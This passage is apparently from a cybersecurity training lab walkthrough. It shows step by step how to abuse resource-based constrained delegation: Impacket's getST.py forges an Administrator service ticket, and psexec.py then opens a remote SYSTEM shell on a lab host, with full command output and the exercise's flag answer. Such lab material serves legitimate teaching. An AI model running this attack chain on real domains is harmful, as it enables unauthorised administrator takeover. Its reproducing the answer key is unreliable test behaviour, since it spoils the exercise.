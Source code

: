 Students can terminate the `ntlmrelayx` process. Right after they have terminated it, students will have to utilize `getST.py` part of Impacket to request a silver ticket as an Administrator while specifying the `CIFS` service SPN using the credentials of the computer they have previously created.

Code: shell

```shell
getST.py -spn cifs/sql01.inlanefreight.local -impersonate Administrator -dc-ip 172.16.117.3 "INLANEFREIGHT"/"Academy-Student$":"5l}2/.dQifU><dO"
```

```shell-session
htb-student@ubuntu:~$ getST.py -spn cifs/sql01.inlanefreight.local -impersonate Administrator -dc-ip 172.16.117.3 "INLANEFREIGHT"/"Academy-Student$":"5l}2/.dQifU><dO"
Impacket v0.11.0 - Copyright 2023 Fortra

[-] CCache file is not found. Skipping...
[*] Getting TGT for user
[*] Impersonating Administrator
[*] 	Requesting S4U2self
[*] 	Requesting S4U2Proxy
[*] Saving ticket in Administrator.ccache
```

Once students have executed the command successfully an Administrator ticket will be generated, which can be used to access resources via `psexec` and its `-k` option to use Kerberos, the `-no-pass` option to specify that no password will be used on the `SQL01` machine. And, the `KRB5CCNAME` attribute to specify the Administrator's ccache file.

Code: shell

```shell
KRB5CCNAME=Administrator.ccache psexec.py -k -no-pass sql01.inlanefreight.local
type C:\Users\Administrator\Desktop\flag.txt
```

```shell-session
htb-student@ubuntu:~$ KRB5CCNAME=Administrator.ccache psexec.py -k -no-pass sql01.inlanefreight.local
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Requesting shares on sql01.inlanefreight.local.....
[*] Found writable share ADMIN$
[*] Uploading file fcyZJGNw.exe
[*] Opening SVCManager on sql01.inlanefreight.local.....
[*] Creating service FZLp on sql01.inlanefreight.local.....
[*] Starting service FZLp.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17763.2628]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32> type C:\Users\Administrator\Desktop\flag.txt
RBCD_Using_NTLMRelay
```

Answer: `RBCD_Using_NTLMRelay`
